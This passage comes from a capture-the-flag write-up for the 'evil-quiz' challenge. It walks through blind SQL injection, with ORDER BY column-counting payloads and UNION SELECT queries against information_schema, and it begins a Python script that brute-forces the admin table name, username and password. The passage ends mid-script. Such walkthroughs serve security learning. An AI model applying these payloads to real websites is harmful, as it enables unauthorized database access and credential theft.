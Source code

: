 Awesome! This confirms the vulnerability. This is a "blind" SQL injection because we can't see the database data directly, but we can infer information based on how the page returns. From here I tried to extract a little information:

## How Many Columns Are In The Current Table?
This information is useful to know for when we run `union` queries later. I ran through the quiz using the following names
```
test' ORDER BY 1-- # Returned 143 users with the same name
test' ORDER BY 2-- # Returned 143 users with the same name
test' ORDER BY 3-- # Returned 143 users with the same name
test' ORDER BY 4-- # Returned 143 users with the same name
test' ORDER BY 5-- # Returned 0 users with the same name
```

This means that we have 4 columns in the current table. Ordering by a nonexistent column is not valid.

## What Is The User Table Named?
I had assumed it was named `users`, but doing a sanity test suggested otherwise:
```
test' UNION SELECT 1,2,3,4 FROM users-- # Returned 0 users
```

Other common names like `user`, `accounts`, `account` were not working either. MySQL has a special database `information_schema.tables` which stores information about the other tables in the database. We can use the injection vulnerability to read this information character by character. My idea was to use names like the following:

```
testerbtgsg54g45' union select table_schema, table_name, 1, 1 from information_schema.tables where table_name like binary '<char>%'-- 
```

To explain, the first part of the query is a nonsense name that doesn't exist. We then do a UNION to select a table_name from the information schema. Note that we select 4 values in order to match the 4 columns of the table that is currently being searched. The last part is where we could put a letter and then a wildcard. Then we know that whichever letter returned "1 other player(s) with the same name as you!" would be the letter a table starts with. And we could go character by character. 

## Exfiltrating the Data

From here I wrote a script to find the table name and the username and password of the admin:

```python
#!/usr/bin/env python3

import requests
import re
import sys

ENDPOINT = 'https://hackyholidays.h1ctf.com/evil-quiz/'
LOWERCASE = 'abcdefghijklmnopqrstuvwxyz'
ALL_CHARS = LOWERCASE + 'ABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890' + '-$_'
table_name_exploit = "union select table_schema, table_name, 1, 1 from information_schema.tables where table_name like binary "
username_exploit = "union select 1, 2, 3, 4 from admin where username like binary "
password_exploit = "union select 1, 2, 3, 4 from admin where password like binary "
cookie = ''

def process(exploit, charset=LOWERCASE):
    accumulator = ''
    while True:
        for char in charset:
            if run_exploit(exploit + f"'{accumulator}{char}%'"):
                accumulator += char
```
